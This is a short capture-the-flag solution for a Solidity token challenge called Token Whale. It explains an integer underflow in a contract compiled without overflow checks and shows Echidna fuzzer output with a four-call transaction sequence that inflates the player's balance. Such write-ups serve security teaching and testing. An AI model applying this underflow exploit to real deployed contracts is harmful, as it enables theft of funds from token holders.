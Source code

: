 ## Solution

1. Token Whale has no totalSupply variable and in version 0.4.21 there were no overflow checks
2. Hence, we can trigger an underflow to pass the checks but also let player account have a huge amount of tokens

┌───────────────────────────────────────────────────┬─────────────────[ Echidna 2.2.3 ]─────────────────┬──────────────────────────────────────────────────┐
│ Time elapsed: 4s                                  │ Unique instructions: 1375                         │ Chain ID: -                                      │
│ Workers: 0/1                                      │ Unique codehashes: 1                              │ Fetched contracts: 0/0                           │
│ Seed: 2635235997052154968                         │ Corpus size: 12 seqs                              │ Fetched slots: 0/0                               │
│ Calls/s: 9053                                     │ New coverage: 1s ago                              │                                                  │
│ Total calls: 36212/50000                          │                                                   │                                                  │
├───────────────────────────────────────────────────┴──────────────────── Tests (1) ────────────────────┴──────────────────────────────────────────────────┤
│ echidna_test_balance: FAILED! with ReturnFalse                                                                                                          ^│
│                                                                                                                                                          │
│ Call sequence:                                                                                                                                           │
│ 1. TestTokenWhaleChallenge.approve(0x20000,35340468949248548663878602044142867050478426807976958357265246165823068642297) from:                          │
│    0x0000000000000000000000000000000000030000 Time delay: 434894 seconds Block delay: 30042                                                              │
│ 2. TestTokenWhaleChallenge.transferFrom(0x30000,0xa329c0648769a73afac7f9381e08fb43dbea72,611) from: 0x0000000000000000000000000000000000020000 Time      │
│    delay: 82671 seconds Block delay: 15368                                                                                                               │
│ 3. TestTokenWhaleChallenge.transfer(0x10000,115792089237316195423570985008687907853269984665640564039457584007913129638936) from:                        │
│    0x0000000000000000000000000000000000020000 Time delay: 297507 seconds Block delay: 45852                                                              │
│ 4. TestTokenWhaleChallenge.transfer(0x30000,3566811619608566761465180910439246356103168508159379963813338847700429208829) from:                          │
│    0x0000000000000000000000000000000000010000 Time delay: 116188 seconds Block delay: 42229                                                              │
│                                                                                                                                                          │                                                                                                                    